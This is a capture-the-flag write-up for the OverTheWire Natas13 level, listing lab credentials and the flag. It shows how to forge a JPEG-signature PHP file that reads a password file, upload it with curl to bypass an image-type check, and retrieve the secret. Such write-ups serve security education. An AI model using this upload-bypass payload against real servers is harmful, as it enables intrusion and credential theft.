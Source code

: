 # Natas13

*	user: `natas13`
*	pass: `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`
*	url: `http://natas13.natas.labs.overthewire.org`
*	flag: `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`

## Procedure

1.	It seems to be the same approach of Natas12 but now, the file's
	signature is checked with the PHP function `exif_imagetype()`.
	According to documentation indeed, such function

		reads the first bytes of an image and checks its signature.

2.	JPEG signature is `0xFF 0xD8 0xFF 0xE0`, so let's start by forging
	a JPEG file

		$ echo -e "\xFF\xD8\xFF\xE0" > image.php
		$ file image.php
		image.php: JPEG image data

	Now append the PHP code

		$ echo -n '<?php $p = file_get_contents("/etc/natas_webpass/natas14"); echo $p; ?>' >> image.php
		$ file image.php
		image.php: JPEG image data

3.	Upload the "image" as in Natas12

		$ curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY -F "MAX_FILE_SIZE=1000" -F "filename=image.php" -F "uploadedfile=@./image.php" http://natas13.natas.labs.overthewire.org
		<html>
		<head>
		[cut]
		</head>
		<body>
		<h1>natas13</h1>
		<div id="content">
		For security reasons, we now only accept image files!<br/><br/>

		The file <a href="upload/7q86uwt60z.php">upload/7q86uwt60z.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		</body>
		</html>

	and check the content

		$ curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org/upload/7q86uwt60z.php
		����Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
